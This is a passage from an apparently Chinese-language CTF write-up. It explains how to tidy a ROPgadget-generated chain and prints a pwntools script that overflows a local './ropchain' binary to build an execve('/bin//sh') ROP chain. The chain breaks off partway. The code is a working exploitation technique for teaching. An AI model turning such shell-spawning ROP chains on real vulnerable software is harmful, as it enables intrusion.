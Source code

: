 ![image-20220316213324762](自救指南.assets/image-20220316213324762.png)

最后一大堆的东西就是我们要溢出覆盖的内容

但是要做一些处理, python首先就是缩进敏感, 复制这些代码, 需要将前面的空格都去掉, 并且pack需要写为完整的`struct.pack` , 同时导入struct包, 整合后的脚本为

##### Exploit

```python
from pwn import*
from struct import pack
o = process("./ropchain")

p = 'a'*0x18
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x00000000004005af) # pop rax ; ret
p += '/bin//sh'
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x00000000004006a6) # pop rdi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000403992) # pop rdx ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
```
